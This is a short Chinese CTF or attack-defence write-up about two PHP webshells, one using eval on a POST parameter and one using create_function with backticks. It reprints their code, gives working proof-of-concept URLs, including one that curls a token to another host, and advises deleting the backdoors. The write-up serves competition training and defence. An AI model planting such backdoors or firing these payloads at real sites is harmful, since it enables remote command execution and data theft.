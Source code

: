 
如果需要下载源码可以使用WinSCP MobaXterm

# 1. 网页后门 `backend/views/site/fun.php`

## 解题步骤
利用D盾扫描站点后门，发现该文件是网页后门
分析以下代码
```php

echo "404 not found!!!!!!!!!!!!!!";
if ($_GET['a'] = 'flag') {
    if ($_POST['b']=='sec') {
        @eval($_POST['cmd']);
    }
}

最后构建poc
http://101.71.29.6:10015/backend/views/site/fun.php?a=flag
b=sec&cmd=system('curl http://10.0.1.2?token=WNHOMGGL');
```

## 防护方法
只要是后门或者webshell的话，都是恶意代码
只要删除就好了


# 2. 网页后门 `frontend/views/html5/index.php`

## 解题步骤

`http://101.71.29.6:10015/frontend/web/html5/?data=ls`

通过D盾发现网页后门，分析得到利用`data`参数可以任意执行系统命令
```php
17-18
$dt = create_function('$a','echo `$a`;');
@$dt($_GET['data']);
```
最后得到poc为`http://101.71.29.6:10015/frontend/web/html5/?data=ls -alt`

## 防护方法

只要是后门或者webshell的话，都是恶意代码
只要删除就好了
如果是植入到项目文件中的，那么删除关键代码即可


防护是把那两行代码删掉就可以么？
    对，删除即可
